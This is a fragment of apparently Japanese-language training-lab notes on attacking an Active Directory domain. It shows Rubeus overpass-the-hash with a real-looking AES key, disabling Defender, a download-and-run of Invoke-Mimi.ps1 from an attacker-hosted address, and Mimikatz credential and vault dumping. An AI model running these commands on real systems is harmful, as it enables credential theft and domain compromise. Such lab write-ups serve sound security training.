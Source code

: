 ```
 * Thread Token  : {0;000003e7} 1 D 2356086     NT AUTHORITY\SYSTEM     S-1
5-18        (04g,21p)       Impersonation (Delegation) 
[snip] 
```
---
2. OverPass-the-hashを使って認証を行う。
```
C:\AD\Tools> C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%/user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt      
[snip] 
```

[dcorp-adminsrv]: PS C:\Users\studentx\Documents> $ExecutionContext.SessionState.LanguageMode 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections 
[dcorp-adminsrv]: PS C:\Users\studentx\Documents> Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
[dcorp-adminsrv]: PS C:\Program Files> .\Invoke-MimiEx.ps1
[dcorp-mgmt]: PS C:\Users\srvadmin\Documents> $env:username 
[dcorp-mgmt]: PS C:\Users>iex (iwr http://172.16.100.X/Invoke-Mimi.ps1 -UseBasicParsing)
[dcorp-mgmt]: PS C:\Users> Invoke-Mimi -Command '"sekurlsa::ekeys"' 
[dcorp-mgmt]: PS C:\Users\mgmtadmin\Documents> Invoke-Mimi -Command '"token::elevate" "vault::cred /patch"' 